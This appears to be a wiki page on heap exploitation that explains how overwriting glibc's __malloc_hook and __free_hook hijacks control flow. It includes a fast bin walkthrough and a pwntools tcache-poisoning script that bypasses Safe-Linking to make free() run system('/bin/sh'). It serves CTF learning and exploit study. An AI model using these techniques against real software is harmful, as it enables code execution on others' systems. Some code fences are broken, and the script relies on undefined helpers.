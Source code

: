 # WWW2Exec - __malloc_hook & __free_hook


## **Malloc Hook**

As you can [[https://www.gnu.org/software/libc/manual/html_node/Hooks-for-Malloc.html|Official GNU site]], the variable **`__malloc_hook`** is a pointer pointing to the **address of a function that will be called** whenever `malloc()` is called **stored in the data section of the libc library**. Therefore, if this address is overwritten with a **One Gadget** for example and `malloc` is called, the **One Gadget will be called**.

To call malloc it's possible to wait for the program to call it or by **calling `printf("%10000$c")`** which allocates too bytes many making `libc` calling malloc to allocate them in the heap.

More info about One Gadget in:

[[../rop-return-oriented-programing/ret2lib/one-gadget.md]]

> [!WARNING]
> Note that hooks are **disabled for GLIBC >= 2.34**. There are other techniques that can be used on modern GLIBC versions. See: [[https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md|https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md]].

## Free Hook

This was abused in one of the example from the page abusing a fast bin attack after having abused an unsorted bin attack:

[[../libc-heap/unsorted-bin-attack.md]]

It's posisble to find the address of `__free_hook` if the binary has symbols with the following command:

```bash
gef➤  p &__free_hook
```
```
[[https://guyinatuxedo.github.io/41-house_of_force/bkp16_cookbook/index.html|In the post]] you can find a step by step guide on how to locate the address of the free hook without symbols. As summary, in the free function:

_gef➤  x/20i free
0xf75dedc0 <free>: push   ebx
0xf75dedc1 <free+1>: call   0xf768f625
0xf75dedc6 <free+6>: add    ebx,0x14323a
0xf75dedcc <free+12>:  sub    esp,0x8
0xf75dedcf <free+15>:  mov    eax,DWORD PTR [ebx-0x98]
0xf75dedd5 <free+21>:  mov    ecx,DWORD PTR [esp+0x10]
0xf75dedd9 <free+25>:  mov    eax,DWORD PTR [eax]--- BREAK HERE
0xf75deddb <free+27>:  test   eax,eax ;<
0xf75deddd <free+29>:  jne    0xf75dee50 <free+144>
```

In the mentioned break in the previous code in `$eax` will be located the address of the free hook.

Now a **fast bin attack** is performed:

- First of all it's discovered that it's possible to work with fast **chunks of size 200** in the **`__free_hook`** location:
- _gef➤  p &__free_hook
  $1 = (void (**)(void *, const void *)) 0x7ff1e9e607a8 <__free_hook>
  gef➤  x/60gx 0x7ff1e9e607a8 - 0x59
  0x7ff1e9e6074f: 0x0000000000000000      0x0000000000000200
  0x7ff1e9e6075f: 0x0000000000000000      0x0000000000000000
  0x7ff1e9e6076f <list_all_lock+15>:      0x0000000000000000      0x0000000000000000
  0x7ff1e9e6077f <_IO_stdfile_2_lock+15>: 0x0000000000000000      0x0000000000000000
  ```
  - If we manage to get a fast chunk of size 0x200 in this location, it'll be possible to overwrite a function pointer that will be executed
- For this, a new chunk of size `0xfc` is created and the merged function is called with that pointer twice, this way we obtain a pointer to a freed chunk of size `0xfc*2 = 0x1f8` in the fast bin.
- Then, the edit function is called in this chunk to modify the **`fd`** address of this fast bin to point to the previous **`__free_hook`** function.
- Then, a chunk with size `0x1f8` is created to retrieve from the fast bin the previous useless chunk so another chunk of size `0x1f8` is created to get a fast bin chunk in the **`__free_hook`** which is overwritten with the address of **`system`** function.
- And finally a chunk containing the string `/bin/sh\x00` is freed calling the delete function, triggering the **`__free_hook`** function which points to system with `/bin/sh\x00` as parameter.

---

## Tcache poisoning & Safe-Linking (glibc 2.32 – 2.33)

glibc 2.32 introduced **Safe-Linking** – an integrity-check that protects the *single*-linked lists used by **tcache** and fast-bins. Instead of storing a raw forward pointer (`fd`), ptmalloc now stores it *obfuscated* with the following macro:

```c
#define PROTECT_PTR(pos, ptr) (((size_t)(pos) >> 12) ^ (size_t)(ptr))
#define REVEAL_PTR(ptr)       PROTECT_PTR(&ptr, ptr)
```
```
Consequences for exploitation:

1. A **heap leak** is mandatory – the attacker must know the runtime value of `chunk_addr >> 12` to craft a valid obfuscated pointer.
2. Only the *full* 8-byte pointer can be forged; single-byte partial overwrites will not pass the check.

A minimal tcache-poisoning primitive that overwrites `__free_hook` on glibc 2.32/2.33 therefore looks like:

```py
from pwn import *

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p    = process("./vuln")

# 1. Leak a heap pointer (e.g. via UAF or show-after-free)
heap_leak   = u64(p.recvuntil(b"\n")[:6].ljust(8, b"\x00"))
heap_base   = heap_leak & ~0xfff
fd_key      = heap_base >> 12  # value used by PROTECT_PTR
log.success(f"heap @ {hex(heap_base)}")

# 2. Prepare two same-size chunks and double-free one of them
a = malloc(0x48)
b = malloc(0x48)
free(a)
free(b)
free(a)           # tcache double-free ⇒ poisoning primitive

# 3. Forge obfuscated fd that points to __free_hook
free_hook = libc.sym['__free_hook']
poison    = free_hook ^ fd_key
edit(a, p64(poison))  # overwrite fd of tcache entry

# 4. Two mallocs: the second one returns a pointer to __free_hook
malloc(0x48)           # returns chunk a
c = malloc(0x48)       # returns chunk @ __free_hook
edit(c, p64(libc.sym['system']))

# 5. Trigger
bin_sh = malloc(0x48)
edit(bin_sh, b"/bin/sh\x00")
free(bin_sh)
```
```
The snippet above was adapted from recent CTF challenges such as *UIUCTF 2024 – «Rusty Pointers»* and *openECSC 2023 – «Babyheap G»*, both of which relied on Safe-Linking bypasses to overwrite `__free_hook`. 

---

## What changed in glibc ≥ 2.34?

Starting with **glibc 2.34 (August 2021)** the allocation hooks `__malloc_hook`, `__realloc_hook`, `__memalign_hook` and `__free_hook` were **removed from the public API and are no longer invoked by the allocator**. Compatibility symbols are still exported for legacy binaries, but overwriting them no longer influences the control-flow of `malloc()` or `free()`. 

Practical implication: on modern distributions (Ubuntu 22.04+, Fedora 35+, Debian 12, etc.) you must pivot to *other* hijack primitives (IO-FILE, `__run_exit_handlers`, vtable spraying, etc.) because hook overwrites will silently fail.

If you still need the old behaviour for debugging, glibc ships `libc_malloc_debug.so` which can be pre-loaded to re-enable the legacy hooks – but the library is **not meant for production and may disappear in future releases**.

---

## References

- [[https://ir0nstone.gitbook.io/notes/types/stack/one-gadgets-and-malloc-hook|https://ir0nstone.gitbook.io/notes/types/stack/one-gadgets-and-malloc-hook]]
- [[https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md|https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md]].
- Safe-Linking – Eliminating a 20 year-old malloc() exploit primitive (Check Point Research, 2020)
- glibc 2.34 release notes – removal of malloc hooks

